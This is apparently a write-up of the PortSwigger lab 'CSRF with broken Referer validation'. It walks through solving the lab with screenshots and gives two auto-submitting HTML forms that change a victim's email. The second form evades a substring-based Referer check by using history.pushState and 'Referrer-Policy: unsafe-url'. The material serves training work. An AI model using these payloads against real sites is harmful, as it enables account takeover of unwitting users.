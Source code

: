
# CSRF with broken Referer validation

This lab's email change functionality is vulnerable to CSRF. It attempts to detect and block cross domain requests, but the detection mechanism can be bypassed.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter

Hint: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

---------------------------------------------

References: 

- https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses



![img](images/CSRF%20with%20broken%20Referer%20validation/1.png)

---------------------------------------------

There is a function to update the email:



![img](images/CSRF%20with%20broken%20Referer%20validation/2.png)


It is a POST request:



![img](images/CSRF%20with%20broken%20Referer%20validation/3.png)


This is the CSRF PoC:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a2c007d0457217b8686cbaf0006004c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

When opened, it returns this error:



![img](images/CSRF%20with%20broken%20Referer%20validation/4.png)


This is because the “Referer” HTTP header contains the domain of the exploit server:



![img](images/CSRF%20with%20broken%20Referer%20validation/5.png)



But we can change the domain of Referer to anything as long as the domain is included in that value:

```
http://attacker-website.com/csrf-attack?0a2c007d0457217b8686cbaf0006004c.web-security-academy.net/
```



![img](images/CSRF%20with%20broken%20Referer%20validation/6.png)



It is necessary to update “history.pushState” in the CSRF PoC and add the vulnerable domain as a parameter of the url:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a2c007d0457217b8686cbaf0006004c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test3&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/?0a2c007d0457217b8686cbaf0006004c.web-security-academy.net');
      document.forms[0].submit();
    </script>
  </body>
</html>
```



![img](images/CSRF%20with%20broken%20Referer%20validation/7.png)


And it is also necessary to send a “Referrer-Policy” value of “unsafe-url” in the Head section to send the whole URL in the Referer header:

```
Referrer-Policy: unsafe-url
```

![img](images/CSRF%20with%20broken%20Referer%20validation/8.png)
